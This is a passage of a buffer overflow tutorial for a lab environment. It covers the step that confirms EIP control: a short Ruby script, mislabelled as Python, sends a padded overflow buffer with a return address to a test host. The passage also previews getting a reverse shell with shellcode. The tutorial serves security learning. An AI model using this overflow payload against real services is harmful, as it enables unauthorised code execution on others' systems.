


This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:



After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Ruby
buff = "A" * 146
buff += "\xc3\x14\x04\x08"
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:



Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
